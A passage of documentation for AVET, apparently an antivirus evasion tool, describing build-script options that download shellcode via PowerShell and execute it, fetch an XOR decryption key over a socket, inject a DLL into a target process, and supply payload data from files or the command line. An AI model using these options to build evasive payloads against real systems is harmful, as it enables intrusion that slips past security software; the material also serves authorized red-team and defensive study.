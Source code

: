 <details><summary><i>Click to expand</i></summary></details>


## Documentation

### Data retrieval methods
These methods are compatible with all of AVET's data sources and can be used as such in the build script.

A few examples:
```
# Compiles the command 'calc.exe' statically into the executable, which will then be executed via cmd at sample startup.
set_command_source static_from_here 'calc.exe'
set_command_exec exec_via_cmd

# Download 64-bit shellcode via powershell, and execute. 
set_payload_source download_powershell
set_payload_execution_method exec_shellcode64

# Download XOR decryption key into memory. (Server to download from is always specified via first command line argument on execution). Decode the payload.
set_key_source download_socket
set_decoder xor

# Retrieves the tuple (target PID, dll path) from command line on execution
set_payload_info_source from_command_line_raw
set_payload_execution_method inject_dll
```
If features are skipped/not used, you have to specify NOP-like behavior instead:
```
set_command_source no_data
set_command_exec no_command
```

#### static_from_file
The data is retrieved from a file and is statically compiled into the generated executable.
For this to work, the data must be provided as a c-style array at compilation time, like
```
unsigned char buf[] = "\x00\x11\x22\x33";
```

#### static_from_here
The data is statically compiled into the generated executable,
retrieved from the specified argument in the build script.

#### dynamic_from_file
The data is read from a file at run time.

#### from_command_line_hex
Retrieves data from a "11aabb22.." format hex string (from the command line).

#### from_command_line_raw
Retrieves data from a command line argument. The given ASCII string is interpreted as raw byte data.
